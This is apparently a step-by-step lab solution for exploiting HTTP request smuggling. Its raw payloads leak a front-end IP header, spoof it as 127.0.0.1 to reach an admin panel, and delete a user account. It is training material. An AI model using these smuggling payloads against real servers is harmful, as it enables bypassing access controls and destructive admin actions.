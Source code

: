 # Exploiting HTTP request smuggling to reveal front-end request rewriting

## This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

## There's an admin panel at `/admin`, but it's only accessible to people with the IP address 127.0.0.1. The front-end server adds an HTTP header to incoming requests containing their IP address. It's similar to the `X-Forwarded-For` header but has a different name.

## To solve the lab, smuggle a request to the back-end server that reveals the header that is added by the front-end server. Then smuggle a request to the back-end server that includes the added header, accesses the admin panel, and deletes the user `carlos`

---

---

### **\_\_\_\_**

step 1

set payload

```
Transfer-Encoding: chunked

userid=test
```

![screenshot](./images/images_lab8/lab8_test_first_payload.png)

### step2

```
Content-Length: 21
Transfer-Encoding: chunked

b
userid=test
0


```

![screenshot](./images/images_lab8/lab8_2nd_payload.png)

### step3

```
Content-Length: 20
Transfer-Encoding: chunked

b
userid=test
0


```

![screenshot](./images/images_lab8/lab8_2nd_payload_with_content_length_less.png)

### step4

```
b
userid=test
0

POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 12
Host: 127.0.0.1

userid=test
```

![screenshot](./images/images_lab8/lab8_unauthorized.png)

![screenshot](./images/images_lab8/lab8_content_length_add_one.png)

### step5

`Content-Length: 11
`search=test`

![screenshot](./images/images_lab8/lab8_search_test.png)

### step6

```
Content-Length: 124
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Connection: close

search=test
```

![screenshot](./images/images_lab8/lab8_post_request_search.png)

### step7

```
Content-Length: 154
Transfer-Encoding: chunked

0

POST /admin HTTP/1.1
X-AOSTLB-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
connection: closed

search=test

```

![screenshot](./images/images_lab8/lab8_administrator.png)

### step8

```
Content-Length: 177
Transfer-Encoding: chunked

0

POST /admin/delete?username=carlos HTTP/1.1
X-AOSTLB-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
connection: closed

search=test

```

![screenshot](./images/images_lab8/lab8_delete_carlos_account.png)

### step9

![screenshot](./images/images_lab8/lab8_lab_solved.png)
